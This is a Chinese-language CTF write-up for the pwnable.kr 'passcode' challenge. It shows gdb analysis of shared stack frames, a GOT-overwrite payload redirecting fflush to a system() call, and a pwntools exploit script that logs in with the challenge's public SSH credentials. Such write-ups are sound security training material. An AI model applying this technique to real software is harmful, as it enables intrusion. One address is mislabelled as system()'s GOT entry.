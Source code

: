 下断点分析welcome函数

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/0e7c8ab7b10fa001580f5933a6ae2ed8.png" alt="0e7c8ab7b10fa001580f5933a6ae2ed8.png" width="721" height="557" class="jop-noMdConv">

**welcome函数ebp为0xffffd498**

**且启动了gs栈检测，所以不能将返回地址直接覆盖为目标地址**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/6419dc61c9c0f05b2b34458d7015ddb1.png" alt="6419dc61c9c0f05b2b34458d7015ddb1.png" width="905" height="547" class="jop-noMdConv">**

可以看到，在`0x8048639 <welcome+48>: call 0x80484a0 <__isoc99_scanf@plt>` 是输入name的字符串提示，那么下一个地是就是name的地址

**name:edx,\[ebp-0x70\]**

继续往下走

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/dad60098217a99f1636bc8b51292ccde.png" alt="dad60098217a99f1636bc8b51292ccde.png" width="814" height="475" class="jop-noMdConv">

可以看到输入的name值aaaaaa的地址是0xffffd428

* * *

继续执行，跳转至login函数

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/99d4e02163a0c9845b4f1da867be32d3.png" alt="99d4e02163a0c9845b4f1da867be32d3.png" width="807" height="699" class="jop-noMdConv">

**可以发现login函数ebp也是0xffffd498，故welcome函数和login函数有相同的ebp**

** <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/edcbf79e8e6ec8df60c743cb5f79779c.png" alt="edcbf79e8e6ec8df60c743cb5f79779c.png" width="962" height="577" class="jop-noMdConv">**

**passcode1:edx,DWORD PTR \[ebp-0x10\]**

已知welcome和login函数拥有同一ebp,那么name和passcode1在同一个栈空间里，可以覆写GOT

name:edx,\[ebp-0x70\] - passcode1:edx,DWORD PTR \[ebp-0x10\]即 **ebp-0x70 - ebp-0x10=96，即name和passcode1相差96字节**

可以看到在login()中，执行scanf()后执行fflush()函数，可以通过name变量覆盖，将passcode1的值改为fflush()函数的地址

在接下来执行login()时，fflush()函数的地址的值，通过scanf()被赋值为system地址，实行执行查看flag的命令

****找到fflush()的got表项地址为0x804a004，system()的got表项地址为0x080485e3****

* * *

可以得到payload = ‘a’*96+’\\x04\\xA0\\x04\\x08’+’\\n’+‘134514147\\n’

* * *

python-c “‘a’*96+’\\x04\\xA0\\x04\\x08’+’\\n’+‘134514147\\n’”|./passcode

* * *

```python
# -*- coding:utf-8 -*-

from pwn import *

try:
    s = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
    p = s.process('./passcode')
    p.sendline('a'*96+'\x04\xA0\x04\x08'+'\n'+'134514147\n')
    p.interactive()
except:
    print('error')
```

* * *

执行exp得到flag，如下图所示：

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/db8b2fc0245bad16909810e9269ea724.png" alt="db8b2fc0245bad16909810e9269ea724.png" width="933" height="556" class="jop-noMdConv">